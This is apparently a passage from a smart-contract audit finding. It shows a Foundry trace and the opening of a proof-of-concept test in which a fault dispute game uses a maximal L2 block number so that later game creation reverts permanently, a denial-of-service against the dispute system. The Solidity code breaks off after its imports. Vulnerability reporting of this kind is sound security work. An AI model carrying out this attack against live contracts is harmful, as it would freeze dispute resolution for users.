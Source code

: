 ```solidity
    │   │   │   │   └─ ← [Return] 2
    │   │   │   ├─ [552] 0x104fBc016F4bb334D775a19E8A6510109AC63E00::rootClaim() [staticcall]
    │   │   │   │   ├─ [348] FaultDisputeGame::rootClaim() [delegatecall]
    │   │   │   │   │   └─ ← [Return] 0x00000000000000000000000000000000000000000000000000000000007b0448
    │   │   │   │   └─ ← [Return] 0x00000000000000000000000000000000000000000000000000000000007b0448
    │   │   │   ├─ [477] 0x104fBc016F4bb334D775a19E8A6510109AC63E00::l2BlockNumber() [staticcall]
    │   │   │   │   ├─ [273] FaultDisputeGame::l2BlockNumber() [delegatecall]
    │   │   │   │   │   └─ ← [Return] 115792089237316195423570985008687907853269984665640564039457584007913129574496 [1.157e77]
    │   │   │   │   └─ ← [Return] 115792089237316195423570985008687907853269984665640564039457584007913129574496 [1.157e77]
    │   │   │   └─ ← [Stop] 
    │   │   └─ ← [Return] 2
    │   └─ ← [Return] 2
    ├─ [113402] DisputeGameFactory::create(1, 0x0000000000000000000000000000000000000000000000000000000000bbdef9, 0xffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff)
    │   ├─ [30849] → new <unknown>@0x037eDa3aDB1198021A9b2e88C22B464fD38db3f3
    │   │   └─ ← [Return] 154 bytes of code
    │   ├─ [48100] 0x037eDa3aDB1198021A9b2e88C22B464fD38db3f3::initialize()
    │   │   ├─ [47894] FaultDisputeGame::initialize() [delegatecall]
    │   │   │   ├─ [643] AnchorStateRegistry::anchors(1) [staticcall]
    │   │   │   │   └─ ← [Return] 0x00000000000000000000000000000000000000000000000000000000007b0448, 115792089237316195423570985008687907853269984665640564039457584007913129574496 [1.157e77]
    │   │   │   └─ ← [Revert] UnexpectedRootClaim(0x000000000000000000000000000000000000000000000000000000bbdef90448)
    │   │   └─ ← [Revert] UnexpectedRootClaim(0x000000000000000000000000000000000000000000000000000000bbdef90448)
    │   └─ ← [Revert] UnexpectedRootClaim(0x000000000000000000000000000000000000000000000000000000bbdef90448)
    └─ ← [Revert] UnexpectedRootClaim(0x000000000000000000000000000000000000000000000000000000bbdef90448)

Suite result: FAILED. 0 passed; 1 failed; 0 skipped; finished in 1.92ms (765.35µs CPU time)

Ran 1 test suite in 2.34s (1.92ms CPU time): 0 tests passed, 1 failed, 0 skipped (1 total tests)

Failing tests:
Encountered 1 failing test in test/GameResolvesDos.t.sol:FaultDisputesTest
[FAIL. Reason: UnexpectedRootClaim(0x000000000000000000000000000000000000000000000000000000bbdef90448)] testSecondFaultIsForeverDossed() (gas: 4717233)
```


## POC - Code

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.15;

import {Test} from "forge-std/Test.sol";
import {console2} from "forge-std/console2.sol";

import "src/dispute/DisputeGameFactory.sol";
import "src/dispute/FaultDisputeGame.sol";
import "src/dispute/AnchorStateRegistry.sol";
import "src/dispute/lib/LibPosition.sol";

contract FaultDisputesTest is Test {

    // NOTE: We use fallback to skip on setting up WETH, Bonds and VM
    fallback() external payable {
```